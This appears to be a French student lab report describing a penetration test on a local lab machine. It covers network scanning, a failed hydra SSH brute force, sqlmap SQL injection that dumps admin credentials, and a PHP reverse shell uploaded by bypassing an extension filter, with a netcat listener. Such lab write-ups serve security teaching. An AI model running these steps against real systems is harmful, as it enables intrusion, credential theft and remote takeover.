

# Rapport du TP4

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.7/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.7`

On voit que 2 ports sont ouverts : le 22 et le 80.

## Port 22

On sait que le port 22 correspont à ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://10.0.2.7`

Sans succès...

## Port 80

Il s'agit d'un serveur web, je me rend donc à l'url 10.0.2.7 et je tombe sur un blog

En cliquand sur le bouton "test", l'url change.

Si j'ajoute un caractère (virugle / apostrophe) dans l'url, j'obtiens un message m'indiquant une erreur de syntaxe SQL.

Je sais donc qu'il y a du SQL et je vais pouvoir utiliser l'outil SQLMap sur cette url pour tenter de trouver des failles.

Avec l'option "--db", on cherche à énumérer les bases de données. L'option "--batch" permet de ne pas avoir à confirmer les entrées dans le terminal, cela fait les choix par défaut.
`sqlmap -u http://10.0.2.7/cat.php?id=1 --dbs --batch`

Cette commande nous informe de l'existance de 2 bases de données : "information_schema" et "photoblog".

On va maintenant essayer de récupérer toutes les tables de la base de données "information_schema". L'option "-D" permet spécifier la base de données que l'on veut analyser.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D information_schema --tables`

Je ne remarque rien de spécial.

On essaye donc de récupérer toutes les tables de la base de données photoblog

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog --tables`

Cette fois-ci on observe une table users qui peut nous intéresser pour potentiellement obtenir des identifiants de connexion.

La commande suivante nous permet de tirer des informations des utilisateurs de la base de données photoblog avec l'option "-D" pour spécifier la base de données photoblog et "-T" pour spécifier que l'on veut rechercher dans la table users. "--dump" permet d'extraire des informations de la table.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog -T users --dump --batch`

La commande nous affiche un user (admin) avec son mot de passe (P4ssw0rd).

En retournant sur google à l'url "http://10.0.2.7" on peut se rendre dans l'onglet admin qui présente un onglet de connexion. Je peux ainsi entrer les identifiants que j'ai obtenu dans la base de données et je parviens effectivement à me connecter.

Cela nous redirige vers la page de gestion des utilisateurs

Etant donné que PHP est utilisé pour gérer les requêtes, on peut essayer de générer un payload PHP pour attaquer la cible. Un payload PHP est un morceau de code PHP que l'on va insérer dans le serveur cible, afin d'obtenir un shell dans ce cas, pour nous permettre de contrôler le système à distance.

On va générer un script PHP contenant un reverse payload. Ce script va établir une connexion vers l'adresse IP 10.0.2.4 (l'ip de ma machine kali) sur le port (1234).

On fais donc une copie d'un payload pré-existant sur la machine sur notre bureau.

`cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/script.php`

Maintenant on va modifier ce fichier "script.php" afin de faire correspondre l'ip (ip hôte) et le numéro de port (1234).

`sudo nano ~/Desktop/script.php`

Je peux ouvrir une connexion netcat qui va écouter sur le port 1234 de la machine hote.

`nc -lvp 1234`

L'option -l permet d'écouter sur le port 1234 (listen), l'option -v ajoute de la verbosité et l'option -p permet de spécifier le port.

Sur le site web, je clique sur ajouter une image en dessous du tableau.

En essayant d'importer le "script.php", et j'ai alors un message d'erreur indiquant "NO PHP!!" qui s'affiche.

Pour bypass cette erreur, on peut modifier le nom du fichier de "payload.php" en "payload.pHP". Puis on le réimporte, il n'ya a pas d'erreur et le payload est bien upload sur la machine cible. 

Enfin, en cliquant sur le script dans la liste, ce dernier s'execute et netcat intercepte la connexion sur le port 1234, me redirigeant directement sur le terminal de la machine cible.

Je peux vérifier que je suis bien connecté à la machine cible avec la commande "ip addr". On retrouve bien l'ip `10.0.2.7`.

De plus, je peux vérifier que je suis connecté à la machine cible en tant qu'utilisateur 'www-data' grâce à la commande `whoami`.

